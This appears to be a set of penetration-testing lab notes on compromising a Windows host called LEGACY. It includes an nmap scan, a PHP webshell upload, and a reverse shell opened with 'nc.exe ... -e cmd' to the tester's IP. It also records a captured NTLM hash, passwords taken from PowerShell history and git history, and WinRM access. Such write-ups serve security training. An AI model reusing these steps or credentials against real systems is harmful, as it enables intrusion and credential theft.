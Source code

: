 ```
Nmap scan report for 192.168.173.249
Host is up (0.023s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-02-01T20:23:40+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LEGACY
|   NetBIOS_Domain_Name: LEGACY
|   NetBIOS_Computer_Name: LEGACY
|   DNS_Domain_Name: LEGACY
|   DNS_Computer_Name: LEGACY
|   Product_Version: 10.0.20348
|_  System_Time: 2025-02-01T20:23:07+00:00
| ssl-cert: Subject: commonName=LEGACY
| Not valid before: 2025-01-31T20:08:56
|_Not valid after:  2025-08-02T20:08:56
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.30)
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.173.249:8000/dashboard/
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/1%OT=80%CT=1%CU=35690%PV=Y%DS=4%DC=T%G=Y%TM=679E8
OS:2CE%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=I%CI=I%TS=A)OPS(O1
OS:=M578NW8ST11%O2=M578NW8ST11%O3=M578NW8NNT11%O4=M578NW8ST11%O5=M578NW8ST1
OS:1%O6=M578ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=
OS:Y%DF=Y%T=80%W=FFFF%O=M578NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%
OS:DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%
OS:O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUC
OS:K=G%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-01T20:23:20
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
-   Hops 1-3 are the same as for 192.168.173.246
4   25.01 ms 192.168.173.249
```

- Uploaded php webshell to http://192.168.133.249:8000/cms/media/shell.pHp?cmd=whoami
- Executed shell with URL: http://192.168.133.249:8000/cms/media/shell.pHp?cmd=dir
- Uploaded nc64.exe and got connect back with nc.exe 192.168.45.173 8888 -e cmd
- found user adrian in Users
- Seimpersonate is enabled but sigmapotato didnt work
- found adrians hash: adrian::LEGACY:1122334455667788:0cdd9029cae616f85973ba4fd355efd5:0101000000000000ab453dc89276db0117554c449b67123500000000080030003000000000000000000000000030000003ad807485e6dfc660531c7b64d93d3427d0566a750da842fbd0e3347d67e6640a00100000000000000000000000000000000000090000000000000000000000
- couldn't crack
- check for tasks
```
    Folder: C:\windows\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
   =================================================================================================


    Folder: C:\windows\system32\tasks
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
```
- Found this in powershell history: echo "Let's check if this script works running as damon and password i6yuT6tym@"
- Found this using git show:
```
-Email configuration of the CMS
-maildmz@relia.com:DPuBT9tGCBrTbR
-
-If something breaks contact jim@relia.com as he is responsible for the mail server.
-Please don't send any office or executable attachments as they get filtered out for security reasons.
```
- Got access via winrm as damon:i6yuT6tym@

COAs:
- ~={yellow}Try godpotatoe=~